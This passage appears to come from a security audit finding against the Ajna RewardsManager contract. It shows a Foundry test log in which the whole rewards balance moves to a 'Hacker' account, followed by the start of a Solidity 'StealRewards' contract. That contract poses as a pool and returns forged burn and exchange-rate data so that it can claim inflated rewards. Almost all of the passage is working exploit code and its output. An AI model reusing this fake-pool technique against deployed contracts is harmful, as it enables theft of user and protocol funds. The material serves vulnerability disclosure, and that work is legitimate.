 $ forge test  -m testStealRewards -vv

Running 1 test for tests/forge/unit/Rewards/StealRewards.t.sol:StealRewardsTest
[PASS] testStealRewards() (gas: 494833)
Logs:
  Rewards balance before: 100000000000000000000000000
  Hacker balance before : 0
  Rewards balance after : 0
  Hacker balance after  : 100000000000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 6.57s

// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import 'src/RewardsManager.sol';
import 'src/PositionManager.sol';

import '@std/Test.sol';
import '@std/Vm.sol';

contract StealRewards {
    ERC20 ajnaToken;
    IRewardsManager rewardsManager;

    uint256 _currentBurnEpoch;
    uint256 toSteal;

    constructor(ERC20 _ajnaToken, IRewardsManager _rewardsManager) {
        ajnaToken = _ajnaToken;
        rewardsManager = _rewardsManager;
    }

    function currentBurnEpoch() external view returns (uint256) {
        return _currentBurnEpoch;
    }

    function bucketExchangeRate(uint) external view returns (uint256) {
        return 1 ether + _currentBurnEpoch;
    }

    function burnInfo(uint256 index) external view returns (uint256 burnBlock_, uint256 totalInterest_, uint256 totalBurned_) {
        if (index == 1) {
            return (block.timestamp + 2 weeks, 0, 0);
        } else {
            return (block.timestamp + 2 weeks, 1, toSteal * 20);
        }
    }

    function bucketInfo(uint256) external pure returns (
        uint256 lpAccumulator_,
        uint256 availableCollateral_,
        uint256 bankruptcyTime_,
        uint256 bucketDeposit_,
        uint256 bucketScale_
    ) {
        return (0, 0, 0, 1 ether, 0);
    }
